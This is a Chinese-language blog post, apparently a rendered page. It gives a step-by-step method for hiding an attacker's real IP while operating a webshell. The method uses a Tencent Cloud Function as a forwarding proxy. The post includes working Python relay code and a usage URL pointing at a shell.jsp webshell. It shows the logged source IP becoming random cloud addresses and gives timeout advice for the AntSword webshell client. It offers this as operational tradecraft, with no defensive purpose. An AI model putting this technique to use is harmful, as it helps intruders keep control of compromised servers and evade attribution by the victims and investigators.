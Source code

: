 # 利用云函数隐藏Webshell真实IP



> 腾讯云自带CDN，我们可以通过腾讯云函数来转发我们的Webshell请求，从而达到隐藏真实IP的目的

## 创建云函数
找到云函数，使用自定义模板
![20220613192232](http://image.xpshuai.cn/20220613192232.png)

![20220613192325](http://image.xpshuai.cn/20220613192325.png)

把下面的代码复制到index.py中
```python
# -*- coding: utf8 -*-
import requests
import json
def geturl(urlstr):
    jurlstr = json.dumps(urlstr)
    dict_url = json.loads(jurlstr)
    return dict_url['u']
def main_handler(event, context):
    url = geturl(event['queryString'])
    postdata = event['body']
    headers=event['headers']
    resp=requests.post(url,data=postdata,headers=headers,verify=False)
    response={
        "isBase64Encoded": False,
        "statusCode": 200,
        "headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
        "body": resp.text
    }
    return response

```
> 注意，运行环境要选Ppython3.6，不然3.7的话得手动上传第三方库(感觉我的同事，不然我一直在坑里出不来呢)


![20220613192414](http://image.xpshuai.cn/20220613192414.png)


部署成功后，点击触发管理->创建触发器：
![20220613192526](http://image.xpshuai.cn/20220613192526.png)

这里需要选择API网关触发：
![20220613192618](http://image.xpshuai.cn/20220613192618.png)


创建完成后，下图可以看到我们的访问路径：
![20220613192747](http://image.xpshuai.cn/20220613192747.png)


## 使用方法
然后在我们的访问路径后面增加`?u=webshell一句话木马`的地址即可
例如：
```text
https://sxxxxxxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/helloworld-11?u=http://xxxx/shell.jsp

```



使用云函数之前，可以看到我的真实IP：
我这里使用`tail -f xxx.log`来监控的日志，也可以wireshark抓包
访问：`http://10.80.20.57:8080/test/shell.jsp`
![20220614112844](http://image.xpshuai.cn/20220614112844.png)
![20220614112807](http://image.xpshuai.cn/20220614112807.png)

使用云函数之后，
访问：`https://serxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/forwarded?u=http://xxx/shell.jsp`
![20220614132635](http://image.xpshuai.cn/20220614132635.png)

然后我们查看日志：显示的是腾讯云函数CDN的地址

![20220614132911](http://image.xpshuai.cn/20220614132911.png)
可以看到IP地址是随机的：
![20220614132852](http://image.xpshuai.cn/20220614132852.png)

成功达到目的



## 补充
防止webshell的掉线行为，修改一下超时设置，可以配置为60s  
最好在【函数管理】 -> 【函数配置】里面，最好把执行超时时间设置成和蚁剑里面的超时时间一样或者更长
![20220613193021](http://image.xpshuai.cn/20220613193021.png)









---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fwebshell%E7%9C%9F%E5%AE%9Eip/  

